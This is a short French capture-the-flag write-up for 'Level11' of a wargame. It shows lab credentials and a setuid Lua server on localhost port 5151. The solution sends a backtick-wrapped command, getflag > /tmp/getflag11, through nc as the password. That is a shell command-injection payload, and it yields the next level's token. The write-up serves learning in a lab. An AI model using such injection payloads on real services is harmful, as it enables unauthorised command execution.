 # Level11

> login:password -> *`level11:feulo4b72j7edeahuete3no7c`*
```
:~$ su level11
Password:feulo4b72j7edeahuete3no7c
```
---

```
:~$ pwd
/home/user/level11
```

```
:~$ ls -la
...
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
...
```

Le Home contient un script lua :

```
:~$ cat level11.lua
...
local server = assert(socket.bind("127.0.0.1", 5151))
...

:~$ lua level11.lua
lua: level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	level11.lua:3: in main chunk
	[C]: ?

```

On remarque que le serveur est déjà lancé, nous pouvons donc utiliser `nc` ou `telnet`

```
:~$ nc localhost 5151
Password: `getflag > /tmp/getflag11`
Erf nope..

:~$ cat /tmp/getflag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Le flag nous permet de se connecter au level12
`level12:fa6v5ateaw21peobuub8ipe6s`